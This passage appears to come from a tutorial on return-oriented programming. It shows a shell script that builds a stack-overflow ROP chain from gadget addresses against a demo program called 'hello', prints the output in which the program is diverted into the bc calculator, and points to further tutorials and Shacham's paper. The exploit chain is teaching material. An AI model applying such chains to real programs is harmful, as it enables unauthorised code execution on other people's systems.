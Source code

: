 ```
0x0806f60f :
  nop
  int 0x80
```


Now we just need to put it all together. 

```sh
P=1234567890123456789012  # smash the stack
P=${P}$'\x23\xcf\x05\x08' # zero edx and eax
P=${P}'This is padding.'  # that was padding
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xf9\xc0\x07\x08' # increment eax
P=${P}$'\xd2\xec\x06\x08' # load parameters
P=${P}$'\xd4\xba\x04\x08' # pointer to NULL
P=${P}$'\xde\xe4\x0b\x08' # pointer to "bc"
P=${P}$'\x0f\xf6\x06\x08' # system call

./hello "$P"
```

And just like that, we're in the calculator:

```
This program is going to greet you.
Hello, 1234567890123456789012#This is padding.��������������
                                                           !
bc 1.07.1
Copyright 1991-1994, 1997, 1998, 2000, 2004, 2006,
2008, 2012-2017
Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type `warranty'. 
5 + 7
12
```

For a more thorough, hands-on introduction to return-oriented programming,
Barrebas has an 
[excellent tutorial](https://barrebas.github.io/blog/2015/06/28/rop-primer-level0/)
available, complete with a VM in which to hone your craft. The landmark academic
study of this technique (which had already established itself in hacking practice)
is Hovav Shacham's 
"[The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls (on the x86)](https://hovav.net/ucsd/dist/geometry.pdf)".
